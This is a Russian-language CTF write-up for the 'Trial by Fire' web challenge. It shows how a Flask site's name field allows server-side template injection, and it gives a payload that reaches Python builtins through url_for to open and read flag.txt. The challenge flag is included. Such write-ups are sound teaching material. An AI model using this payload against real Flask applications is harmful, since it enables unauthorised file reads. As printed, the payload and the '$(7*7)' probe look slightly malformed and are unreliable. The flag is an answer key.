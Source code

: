 # Trial by Fire (Web) - 950 points
## Writeup Author - GameIsOn
---

## Files

[Site backend](./web_trial_by_fire.zip)

---

Открываем сайт и видим приветственный баннер, а также поле ввода имени нашего бойца.

![image1](images/image1.png)

"Perhaps 49 is the key" - Число 49 обычно появляется, когда делают базовую проверку на SSTI ([Server-Side Template Injection](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection)) - `$(7*7)`.

Сайт написан на Flask, так что можем попробовать переменную config. Заносим её как наше имя в поле ввода: `{{config}}`.

![image2](images/image2.png)

Отлично, SSTI работает. Флаг у нас лежит в файле flag.txt в папке веб-сервера, поэтому прописываем пейлоуд на его прочтение:
`{{url_for.__globals__.__builtins__['open'].('./flag.txt', 'r').readline()}}`

`url_for` - функция, создающая URL-адрес для заданной конечной точки.
`__globals__` - глобальные переменные функции
`__builtins__` - встроенные функции в глобальных переменных
`['open']("./flag.txt", 'r').readline()` - используем функцию open, чтобы открыть файл с флагом.

![image3](images/image3.png)

---

## Flag

`HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_104a5457af58bf2848e197ce77e23e7e}`